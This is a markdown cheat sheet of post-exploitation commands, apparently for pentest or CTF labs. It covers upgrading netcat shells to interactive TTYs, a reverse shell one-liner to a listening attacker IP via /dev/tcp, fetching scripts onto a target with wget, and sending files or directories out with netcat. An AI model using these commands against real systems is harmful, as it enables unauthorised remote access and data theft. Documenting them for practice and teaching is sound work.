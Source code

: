 # common go-to actions


## shells

### spawning shells

**python**

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

**bash**

**perl**

#### making them full interactive

**shortcut**:
```
/usr/bin/script -qc /bin/bash /dev/null
```

when getting a reverse shell through `netcat`, by default it's non-interactive - meaning it's a pain. once you run any of the above scripts to get a partially interactive shell, you can do a few more things to optimize:

_non-interactive shell_:
```
## get partially interactive shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

_remote shell_:
```
## background process netcat in the remote shell
user@remote:$ ^Z
```
_local env_:
```
## get rows/cols values from your current env
user@local:~$ stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'

## so you can pass keyboard shortcuts, bring netcat back to the foreground 
user@local:~$ stty raw -echo; fg
```
<small>**[ZSH NOTE]**: zsh, specifically, only respects the -echo until the next prompt which means that you need to type your next command all in one line</small>

_remote env_:
```
## set the correct sizes for the remote shell
user@remote:~$ stty rows [ROWS] cols [COLS]

## export shell to ENV
export SHELL=/bin/bash

## enable colors
user@remote:~$ export TERM=xterm-256color

## reload shell to apply the TERM variable
user@remote:~$ reset 
OR
user@remote:~$ exec /bin/bash
```

#### spawn workarounds

_for non-responsive shell spawning when you need to change users_

first start a listening on your local host machine:

```
nc -nlvp [PORT]
```

then, from the remote/target machine:

```
echo "[PASSWORD]" | su - [USER] -c "bas -i >& /dev/tcp/[LOCAL IP]/[PORT] 0>&1"
```

## file transfers

**METHOD ONE (`local server & wget`)**:

**usecase**: fetch files/scripts from your local machine on the remote host

_sender_:
```
cd souce_directory
python -m http.server 
```

_'receiver' (more accurately, a fetcher here)_:
```
## python http server always starts by default at port 8000
## unless otherwise specified
wget http://[LOCAL IP]:8000/[FILE YOU WANT]
```

**METHOD TWO (netcat)**:

##### SENDING FILE(S) BETWEEN SYSTEMS

_receiver_:

start a listener and provide the name you want to give the sent file

```
nc -l -p [PORT] > [FILENAME]
```

_sender_:
```
nc -w 3 [RECEIVER IP] [PORT] < [FILENAME]
```

##### SENDING WHOLE DIRECTORIES

_receiver_:

maybe first create a separate directory if you want one, since this is going to send multiple files, then `cd` into it and start a `netcat` listener

```
nc -l -p [PORT] | tar xf -
```

_sender_:

```
cd source_directory
tar cf - . | nc [RECEIVER IP] [PORT]
```